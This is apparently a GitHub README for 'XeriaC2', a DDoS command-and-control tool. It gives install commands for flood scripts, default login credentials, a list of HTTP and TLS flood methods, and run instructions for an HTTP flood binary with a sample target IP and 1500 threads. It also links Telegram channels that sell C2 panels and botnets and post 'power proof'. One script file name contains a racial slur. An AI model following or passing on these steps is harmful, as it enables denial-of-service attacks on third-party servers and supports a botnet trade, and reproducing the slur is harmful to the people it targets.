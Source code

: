 ## Setup/Install
```sh
Cloud Shell : https://shell.cloud.google.com/?show=ide%2Cterminal

CentOS:
yum install git -y
yum install golang -y
yum install perl -y
yum install python2 -y
yum install python3 -y
yum install python3-pip -y
yum install nodejs -y
yum install npm -y

Debain, Ubuntu:
sudo apt-get install git -y
sudo apt-get install golang -y
sudo apt-get install perl -y
sudo apt-get install python3 -y
sudo apt-get install python2 -y
sudo apt-get install python3-pip -y
sudo apt-get install nodejs -y
sudo apt-get install npm -y

git clone https://github.com/levanderdev/XeriaC2

cd XeriaC2

node auto_install_modules.js 404.js HTTP-NIGGA.js BYPASS.js holdv2.js Tlsv1.js TLSv2.js MIX.js spike.js XENN-BYPASS.js anus.js

pip3 install -r requirements.txt

python3 xeriac2.py

```

## Login 
```sh
Username : root
Password : 23

```
## How To Install Modules
```sh
How To Install Modules Please Are You Get Error cannot find module
- Usage : node auto_install_modules.js HTTP.js
- Example : node auto_install_modules.js example.js
Note : 
- Please Dont Input the on xeriac2.py
- you can input the cd XeriaC2
- python xeriac2.py
- choose methods
- error?
- ctrl + c
- node auto_install_modules.js example.js

```

## Methods Work On xeriac2.py
```sh
- HTTP
- TLS
- TLSV2
- TLSV3
- BOMB
- MIX

```

## File Stresser/DDoS/Botnet/Api
you can get the this free !!! Open file the install the zip

## Telegram/Chat/Bug</br>
Free Tools DDoS/Methods : https://t.me/freetoolsddos

Telegram : https://t.me/freetoolsddos

C2 or Botnet if you wanna buy : https://t.me/perkicauc2

Power Proof : https://t.me/PerkicauC2PowerProof

Chat : https://t.me/+FlxMp6qQVoNmZWZl

Bug? : https://t.me/perkicau

## ADMIN/PASSWORD</br>
Username : admin

Password : admin

## Wanna Update Method?</br> 
remove file XeriaC2
-----
WANNA USE HTTP-FLOOD.go?
STEP BY STEP :
## INSTALL : 

https://github.com/levanderdev/XeriaC2

cd XeriaC2

go mod init http 

go get github.com/valyala/fasthttp
go build 

./http

## USAGE : 
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500

**PLEASE STAR WITH YOU SUPPORT ME**


## How To Install/Setup

https://github.com/levanderdev/XeriaC2/assets/86545190/b02456da-afa0-453c-b6f6-4e31de2aa570
